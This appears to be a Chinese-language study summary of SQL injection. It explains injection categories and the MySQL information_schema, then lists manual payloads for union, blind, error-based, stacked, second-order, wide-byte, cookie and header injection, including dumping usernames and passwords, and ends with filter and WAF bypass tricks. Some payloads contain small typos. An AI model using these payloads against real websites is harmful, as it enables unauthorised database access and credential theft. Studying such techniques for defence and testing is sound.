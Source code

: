 # SQL 注入总结

## 0x01 什么是SQL注入
sql注入就是一种通过操作输入来修改后台操作语句达到执行恶意sql语句来进行攻击的技术。

## 0x02 SQL注入的分类
按变量类型分：数字型、字符型
按HTTP提交方式分：GET注入、POST注入、Cookie注入
按注入方式分
    报错注入
    盲注：布尔盲注、时间盲注
    union注入
编码问题：宽字节注入

## 0x03识别后台数据库
根据操作系统平台
sql server：Windows（IIS)
MySQL：Apache

根据web语言
Microsoft SQL Server：ASP和.Net
MySQL：PHP
Oracle/MySQL：java

## 0x04 MySQL 5.0以上和MySQL 5.0以下版本的区别
MySQL 5.0以上版本存在一个存储着数据库信息的信息数据库--INFORMATION_SCHEMA ，其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。 而5.0以下没有。

information_schema
系统数据库，记录当前数据库的数据库，表，列，用户权限等信息

SCHEMATA
储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等

TABLES
储存mysql中的表信息，包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等

COLUMNS
储存mysql中表的列信息，包括这个表的所有列以及每个列的信息，该列是表中的第几列，列的数据类型，列的编码类型，列的权限，列的注释等

## 0x05 基本手工注入流程
要从select语句中获得有用的信息，必须确定该数据库中的字段数和那个字段能够输出，这是前提。

1. MySQL >= 5.0
（1）获取字段数
```sql
order by n  /*通过不断尝试改变n的值来观察页面反应确定字段数*/
```
（2）获取系统数据库名
在MySQL >5.0中，数据库名存放在information_schema数据库下schemata表schema_name字段中
```sql
select null,null,schema_name from information_schema.schemata
```
（3）获取当前数据库名
```sql
select null,null,...,database()
```
（4）获取数据库中的表
select null,null,...,group_concat(table_name) from information_schema.tables where table_schema=database()
或

select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
（5）获取表中的字段
这里假设已经获取到表名为user

select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
（6）获取各个字段值
这里假设已经获取到表名为user，且字段为username和password

select null,group_concat(username,password) from users
2.MySQL < 5.0
MySQL < 5.0 没有信息数据库information_schema，所以只能手工枚举爆破（二分法思想）。

该方式通常用于盲注。

相关函数
length(str) ：返回字符串str的长度

substr(str, pos, len) ：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始

mid(str,pos,len) ：跟上面的一样，截取字符串

ascii(str) ：返回字符串str的最左面字符的ASCII代码值

ord(str) ：将字符或布尔类型转成ascll码

if(a,b,c) ：a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

（1）基于布尔的盲注
and ascii(substr((select database()),1,1))>64 /*判断数据库名的第一个字符的ascii值是否大于64*/
（2）基于时间的盲注
id=1 union select if(SUBSTRING(user(),1,4)='root',sleep(4),1),null,null /*提取用户名前四个字符做判断，正确就延迟4秒，错误返回1*/
0x06 常用注入方式
注释符：

#
-- (有空格)或--+
/**/
内联注释：

/*！...*/
union注入
id =-1 union select 1,2,3   /*获取字段*/
Boolean注入
id=1' substr(database(),1,1)='t'--+     /*判断数据名长度*/
报错注入
1 floor()和rand()
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a       /*利用错误信息得到当前数据库名*/
2 extractvalue()
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
3 updatexml()
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
4 geometrycollection()
id=1 and geometrycollection((select * from(select * from(select user())a)b))
5 multipoint()
id=1 and multipoint((select * from(select * from(select user())a)b))
6 polygon()
id=1 and polygon((select * from(select * from(select user())a)b))
7 multipolygon()
id=1 and multipolygon((select * from(select * from(select user())a)b))
8 linestring()
id=1 and linestring((select * from(select * from(select user())a)b))
9 multilinestring()
id=1 and multilinestring((select * from(select * from(select user())a)b))
10 exp()
id=1 and exp(~(select * from(select user())a))
时间注入
id = 1 and if(length(database())>1,sleep(5),1)
堆叠查询注入
id = 1';select if(sub(user(),1,1)='r',sleep(3),1)%23
二次注入
假如在如下场景中，我们浏览一些网站的时候，可以现在注册见页面注册username=test'，接下来访问xxx.php?username=test'，页面返回id=22；

接下来再次发起请求xxx.php?id=22，这时候就有可能发生sql注入，比如页面会返回MySQL的错误。

访问xxx.php?id=test' union select 1,user(),3%23，获得新的id=40，得到user()的结果，利用这种注入方式会得到数据库中的值。

宽字节注入
利用条件：
[ ] 查询参数是被单引号包围的，传入的单引号又被转义符()转义，如在后台数据库中对接受的参数使用addslashes()或其过滤函数
[ ] 数据库的编码为GBK
利用方式
id = -1%DF' union select 1,user(),3,%23
在上述条件下，单引号'被转义为%5c，所以就构成了%df%5c，而在GBK编码方式下，%df%5c是一个繁体字“連”，所以单引号成功逃逸。

Cookie注入
当发现在url中没有请求参数，单数却能得到结果的时候，可以看看请求参数是不是在cookie中，然后利用常规注入方式在cookie中注入测试即可，只是注入的位置在cookie中，与url中的注入没有区别。

Cookie: id = 1 and 1=1
base64注入
对参数进行base64编码，再发送请求。

说明：id=1'，1的base64编码为MSc=，而=的url编码为%3d，所以得到以下结果：

id=MSc%3d
XFF注入
XFF(X-Forward-For)，简称XFF头，它代表客户端真实的ip地址

X-Forward-For：127.0.0.1' select 1,2,user()
0x07 SQL注入绕过技术
大小写绕过

双写绕过

编码绕过（url全编码、十六进制）

内联注释绕过

关键字替换

逗号绕过

substr、mid()函数中可以利用from to来摆脱对逗号的利用；

limit中可以利用offset来摆脱对逗号的利用

比较符号( >、< )绕过（greatest、between and)

逻辑符号的替换（and=&& or=|| xor=| not=!）

空格绕过（用括号，+等绕过）

等价函数绕过

hex()、bin()=ascii()
concat_ws()=group_concat()
mid()、substr()=substring()
http参数污染（id=1 union select+1,2,3+from+users+where+id=1–变为id=1 union select+1&id=2,3+from+users+where+id=1–）

缓冲区溢出绕过 (id=1 and (select 1)=(Select 0xAAAAAAAAAAAAAAAAAAAAA)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 ,27,28,29,30,31,32,33,34,35,36–+ 其中0xAAAAAAAAAAAAAAAAAAAAA这里A越多越好。。一般会存在临界值，其实这种方法还对后缀名的绕过也有用)